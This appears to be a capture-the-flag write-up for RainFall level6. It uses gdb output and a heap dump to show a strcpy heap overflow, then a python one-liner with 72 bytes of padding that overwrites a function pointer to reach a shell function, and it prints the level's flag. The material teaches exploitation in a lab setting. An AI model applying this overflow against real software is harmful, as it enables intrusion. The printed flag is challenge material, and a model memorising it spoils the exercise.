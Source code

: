 ```
0x08048454  n // shell
0x08048468  m // call puts
0x0804847c  main
```


b at
```
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
=> 0x080484ca <+78>:	mov    0x18(%esp),%eax
```
send 64 chars and inspect the heap

(gdb) info proc mappings

heap starts at 0x804a000

```
(gdb) x/40wx 0x804a000

0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a050:	0x08048468

```
addr of func m() [0x08048468] could be seen in the heap 8 addr away from argv[1]
```
(gdb) p 64 + 4 + 4
$1 = 72
```


```
level6@RainFall:~$ ./level6  $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

```
man strcpy

SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables mali-
     cious users to arbitrarily change a running program's functionality
     through a buffer overflow attack.
```

buffer argv1 is `movl   $0x40,(%esp)` = 64, we fuzz until the binary segv:

```
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72')
Segmentation fault (core dumped)
```
overflow the EIP with n() addr 0x08048454 
```
./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]')
```











